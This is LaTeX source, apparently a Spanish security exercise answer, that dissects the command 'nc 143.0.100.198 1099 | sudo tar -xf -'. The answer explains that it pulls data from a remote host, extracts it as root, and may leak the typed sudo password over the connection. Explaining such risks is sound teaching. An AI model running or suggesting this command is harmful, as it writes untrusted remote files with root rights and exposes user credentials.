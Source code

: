 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{enumerate}
\item Para analizar el comando \textbf{nc 143.0.100.198 1099 $|$ sudo tar -xf -} comenzaremos con la parte de netcat, es decir, \textbf{nc}. Esto se usa para crear una conexi\'on con el puerto 1099 de la IP nombrada. Por otro lado, el comando \textbf{tar -xf -} extrae un archivo, el - ordena que se use el archivo que se pasa por el pipe. Es decir, se crea una conexi\'on, y cuando se recibe un archivo, se lo descomprime. Pero no termina ahi, porque falta la palabra sudo. La palabra sudo hace que se pida la contrase\~na del usuario, y cuando se la escribe, no solamente se usa para descomprimir el archivo (o intento de archivo, porque no se le puede pasar nada), sino que se envia al chat, por lo que cualquier persona escuchando podria hacerse con las credenciales.


\end{enumerate}
\end{document}
